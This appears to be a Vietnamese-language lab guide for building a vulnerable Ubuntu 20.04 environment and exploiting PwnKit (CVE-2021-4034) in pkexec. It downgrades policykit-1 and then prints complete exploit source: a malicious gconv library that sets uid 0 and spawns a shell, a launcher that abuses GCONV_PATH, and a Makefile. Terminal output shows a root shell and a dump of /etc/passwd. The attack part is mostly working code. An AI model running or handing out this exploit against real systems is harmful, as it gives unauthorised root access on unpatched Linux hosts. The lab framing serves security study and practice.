# 🛠️ Setup Môi Trường Khai Thác PwnKit (CVE-2021-4034)

## 📌 Mục tiêu
Tạo môi trường với phiên bản `pkexec` dễ bị khai thác, sử dụng kernel `5.4.0-107-generic` trên Ubuntu 20.04.

---

## Bước 1: Cài đúng phiên bản Kernel

Kiểm tra xem hệ thống đã có sẵn phiên bản kernel mong muốn chưa:

```shell
apt list --all-versions linux-image-5.4.0-107-generic
```



Cài đặt kernel và headers: 

```shell
sudo apt install linux-image-5.4.0-107-generic linux-headers-5.4.0-107-generic
```



---

## Bước 2: Kiểm tra các file có quyền SUID

```shell
find / -perm -4000 2>/dev/null
```



Thấy thư viện `/usr/bin/pkexec` hiện hành. Tìm kiếm và xem phiên bản:



---

## Bước 3: Kiểm tra và cài đúng phiên bản policykit-1

Phiên bản hiện tại:

```shell
dpkg -l | grep policykit-1
```




Gỡ bản hiện tại:

```shell
sudo apt remove --purge policykit-1
```



Xem các phiên bản có thể cài:

```shell
apt-cache madison policykit-1
```



Cài bản dễ bị khai thác:

```shell
sudo apt install policykit-1=0.105-26ubuntu1 libpolkit-agent-1-0=0.105-26ubuntu1 libpolkit-gobject-1-0=0.105-26ubuntu1
```



---

## Bước 4: Chuẩn bị và khai thác

`evil-so.c`




```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}
void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```


`exploit.c`




```c
#include <stdio.h>
#include <stdlib.h>
#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main() {
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    return 0;
}
```

`Makefile`




```make
all:
        gcc -shared -o evil.so -fPIC evil-so.c
        gcc exploit.c -o exploit
clean:
        rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

Biên dịch và chạy:




```shell
h13u@ubuntu:~/tmp$ ls
evil-so.c  exploit.c  Makefile
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:9:5: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
    9 |     setgroups(0);
      |     ^~~~~~~~~
      |     getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
   10 |     execve("/bin/sh", NULL, NULL);
      |     ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:23:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   23 |     execve(BIN, argv, envp);
      |     ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile
h13u@ubuntu:~/tmp$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
...
```


